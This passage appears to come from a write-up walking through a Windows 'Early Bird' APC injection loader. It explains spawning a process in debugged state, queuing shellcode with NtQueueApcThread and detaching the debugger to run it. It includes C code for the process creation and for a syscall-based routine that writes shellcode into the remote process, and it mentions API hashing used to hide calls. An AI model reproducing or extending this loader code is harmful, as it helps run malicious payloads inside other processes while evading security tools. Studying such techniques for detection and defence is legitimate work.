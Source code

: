 The function `CreateSuspendedProcess()` creates a new process in a suspended state. When creating a process this way, it's main thread is also suspended which means it's in an alertable state. It takes the macro `TARGET_PROCESS` as input and returns you the following:

- A pointer to the process id 
- A pointer to a handle of the newly created process 
- A pointer to a handle to the processes thread

But wait, we’re actually not using the `CREATE_SUSPENDED` flag during the process creation. Instead, we're creating the process in a *debugged* state.

```c
// This is the function cCPAu (API Hashing) from inject.c
// I renamed it into its original name for convenience

if(!CreateProcessA(
		NULL,
		lpPath,
		NULL,
		NULL,
		FALSE,
		DEBUG_PROCESS, // <- THIS FLAG
		NULL,
		NULL,
		&Si,
		&Pi)) {
```

So why `DEBUG_PROCESS` instead of `CREATE_SUSPENDED`? The idea behind this implementation of Early Bird goes actually like this:

1. Create a process in debugged state, which attaches the local debugger, placing a hardware breakpoint which pauses the process (yes you see where this goes right?)
2. The shellcode is then injected using `APCInjection()` and is then being queued via `NtQueueApcThread()`
3. The local debugger is then detached with the function `DebugActiveProcessStop()` which resumes the execution of the thread and immediately executes the queued shellcode

The function `APCInjection()` is actually just a syscall equivalent of the classic `VirtualAlloc -> memcpy -> VirtualProtect`:

```c
BOOL APCInjection(IN HANDLE hProcess, IN PBYTE pShellcode, IN SIZE_T sSizeOfShellcode, OUT PVOID* ppAddress) {

	SIZE_T		sNumberOfBytesWritten		= 0,
				sSize						= sSizeOfShellcode;
	ULONG		uOldProtection				= 0;
	NTSTATUS	STATUS						= 0x00;

	if ((STATUS = NTAVM(hProcess, ppAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {

		printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	//printf("[i] Allocated Memory At : 0x%p \n", *ppAddress);

	if ((STATUS = NTWVM(hProcess, *ppAddress, pShellcode, sSizeOfShellcode, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sSizeOfShellcode) {

		printf("[!] NtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	printf("[+] Successfully Written %d Bytes\n", sNumberOfBytesWritten);
```